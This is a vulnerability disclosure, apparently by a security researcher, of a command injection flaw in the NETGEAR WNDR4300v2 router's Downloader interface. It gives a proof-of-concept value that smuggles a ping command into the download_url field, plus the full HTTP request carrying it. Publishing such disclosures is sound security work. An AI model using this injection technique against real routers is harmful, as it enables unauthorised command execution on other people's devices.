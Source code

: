 Hi, I'm eack from Codesafe team of Legendsec at Qi'anxin Group .

Recently, I discovered that there is a command injection vulnerability in netgear's WNDR4300v2 router. The firmware version tested was v1.0.0.58. The details of the vulnerability are as follows:


Vulnerability location:

In the NETGEAR Downloader (BETA) management interface, when using the http/ftp download method, the command is injected because the download_url parameter is not filtered.
![]()

The location of the vulnerability in the code:
![]()

Introduced by formatting a string:
![]()

Finally, execute the command through system:
![]()


Poc:

`http://192.168.195.132:8000/1.txt';ping 192.168.1.8;echo'`


The same, plug in the USB on the router, then turn on the wireshark to monitor the WLAN traffic.

Click Add, then you can see the icmp traffic in wireshark, that is, execute the ping command:
![]()


HTTP Request:
```HTTP:
POST /apply.cgi?/GREEN_http_basic.htm%20timestamp=380767450332 HTTP/1.1
Host: 192.168.1.1
Content-Length: 476
Cache-Control: max-age=0
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
Origin: http://192.168.1.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.1.1/GREEN_http_basic.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: auth_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOiI4MDQ5IiwiaXNzIjoid3d3Lm5ldGdlYXIuY29tIiwic3ViIjoiTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgMTAuMDsgV2luNjQ7IHg2NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQw==.2b74af449894c35b2336767a3ed19d0f9f2a177a79bddafa290b85d62b379f33
Connection: close

submit_flag=add_download_item&download_type=http&green_download_open_flag=&enable_green_download=on&download_type_1=http&download_url=http%3A%2F%2F192.168.195.132%3A8000%2F1.txt%5C%27%3Bping+192.168.1.8%3Becho%27&user_name=&password=&user_name_hid=&password_hid=&decodeurl=http%3A%2F%2F192.168.195.132%3A8000%2F1.txt%5C%27%3Bping+192.168.1.8%3Becho%27&Add=%E6%B7%BB%E5%8A%A0&priority_sel=4&priority_sel=4&priority_sel=4&select_ids=&select_ids_queuen=&priority_val=&file_type=2
```
